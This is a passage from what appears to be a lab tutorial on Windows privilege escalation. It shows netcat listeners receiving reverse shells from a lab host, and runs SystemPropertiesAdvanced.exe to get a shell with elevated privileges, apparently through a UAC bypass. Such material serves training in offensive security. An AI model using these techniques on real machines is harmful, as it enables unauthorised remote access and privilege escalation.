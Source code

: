 Once we get a connection back, we'll see normal user rights.
```shell-session
$ nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### Executing SystemPropertiesAdvanced.exe on Target Host

Now, we can execute the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.
```cmd-session
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

### Receiving Connection Back
```shell-session
Wildland4958@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
```